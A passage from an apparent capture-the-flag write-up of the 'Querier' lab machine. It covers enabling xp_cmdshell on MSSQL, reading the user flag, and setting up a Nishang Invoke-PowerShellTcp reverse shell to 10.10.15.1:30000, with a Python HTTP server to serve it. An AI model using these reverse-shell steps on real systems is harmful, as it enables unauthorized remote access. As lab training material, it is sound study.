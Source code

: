 <div class="imgblock">

![mssql-commands](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331038/blog/querier-writeup/mssql-commands_q71qua.webp)

<div class="title">

Figure 11. xp_cmdshell enabled

</div>

</div>

Because we can execute commands, reading the user flag is now possible.

<div class="imgblock">

![flag-user](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/flag-user_nfielb.webp)

<div class="title">

Figure 12. User flag

</div>

</div>

## Getting Root

This method of executing commands may be an inconvenient way to escalate
privileges, so we will upload a shell to the server. To do this we will
use the script `Invoke-PowerShellTcp.ps1` of `Nishang` framework. Before
uploading the shell we add our IP address and some free port to make the
connection.

``` bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
```

<div class="imgblock">

![ip-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/ip-shell_olbsfz.webp)

<div class="title">

Figure 13. Invoke-PowerShellTcp code

</div>

</div>

Then it is necessary to start an `HTTP` server in our machine. We can do
it with `Python3`.

``` bash
python -m http.server
```

<div class="imgblock">

![python-server](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/python-server_hhhxx5.webp)
